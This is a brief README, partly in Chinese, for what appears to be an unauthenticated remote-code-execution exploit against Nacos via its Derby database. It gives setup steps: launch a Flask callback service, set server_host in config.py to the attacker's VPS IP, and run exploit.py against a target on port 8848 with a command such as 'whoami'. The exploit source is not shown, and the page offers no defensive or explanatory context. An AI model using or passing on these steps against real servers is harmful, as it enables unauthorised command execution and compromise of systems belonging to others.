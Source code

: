 nacos derby removal unauth rce exp
改动启动flask的ip+port为固定、输出post_json

```
app.run('0.0.0.0', 8888)
```

使用：

```
pip3 install -r requirements.txt
python3 service.py 启动flask服务
```

更改config.py中
server_host = "vps ip"

```
server_host='服务器ip'
server_port无需更改
```

执行exploit.py：

```
python3 exploit.py
http://x.x.x.x:8848
whoami
```

